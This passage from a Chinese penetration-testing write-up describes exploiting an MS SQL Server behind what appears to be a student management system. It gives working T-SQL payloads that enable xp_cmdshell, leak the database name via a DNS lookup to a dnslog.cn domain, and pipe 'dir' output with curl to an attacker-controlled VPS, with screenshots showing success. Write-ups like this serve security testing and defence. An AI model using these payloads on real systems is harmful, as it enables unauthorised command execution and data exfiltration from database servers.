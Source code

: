 ```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
DECLARE @dbName NVARCHAR(128);
DECLARE @cmd NVARCHAR(400);
SET @dbName = DB_NAME();
SET @cmd = 'ping ' + @dbName + '.ch85c4.dnslog.cn';
EXEC xp_cmdshell @cmd;

```

  
登录学生账号请求对应文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoa1CnC7ZicDX2wkZMZGvIRthA1sgqqbnKGNpN05QIiazefsdGfuUZ8Ydtg/640?wx_fmt=png&from=appmsg "")  
  
此时查看DNSLOG的解析记录：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoadliaten0cE4yWVawzCCL1syiaSPa4EInvwuPddn2Z51icVrlZrDTTpRQA/640?wx_fmt=png&from=appmsg "")  
  
成功将数据库名带出！  
  
那么接下来便是想要执行命令，这里便有一个踩坑：  
  
**由于在超管权限下看到的系统管理菜单处是LINUX系统**  
：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoavpqIsxnGKZNqpJMGiaZYibUhP46NTlibdDMMqibNgMAY08zR3AJuGcffDA/640?wx_fmt=png&from=appmsg "")  
  
所以便一直进行LINUX的命令执行，像是ls之类的命令。  
  
后续再测试执行**windows命令**  
才成功执行，此时才反应过来这套系统是典型的**站库分离**  
，即**WEB服务系统主机和数据库主机是分离开的**  
。  
  
那么修改SQL语句为执行dir命令：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoa9xoXNT1IAISHDvje3nNLLf18QArJkHywaprqdlW61ckk5VXXJTIj5Q/640?wx_fmt=png&from=appmsg "")  

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell 'dir 2>&1 | curl -X POST --data @- http://ip:port ';

```

  
成功在VPS上获得命令回显！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWj6JfLM1E3jicsytgn2qXoadrVias5SQGLW6j49BjOxK07j8v1JVNxRblbkoNdNwfEftuapSKiaWxDA/640?wx_fmt=png&from=appmsg "")  
  
  